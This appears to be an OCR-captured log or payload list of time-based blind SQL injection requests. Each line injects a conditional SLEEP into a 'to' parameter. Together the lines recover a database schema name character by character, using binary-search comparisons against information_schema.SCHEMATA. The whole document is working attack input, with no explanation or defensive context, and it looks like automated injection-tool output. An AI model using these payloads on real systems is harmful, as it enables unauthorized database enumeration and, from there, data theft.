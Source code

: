 {to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>124,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=122,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>122,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=121,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=116,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>116,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=114,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>114,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=115,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=116,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>116,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=114,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>114,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=113,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>64,SLEEP(0.155797244898),SLEEP(0))}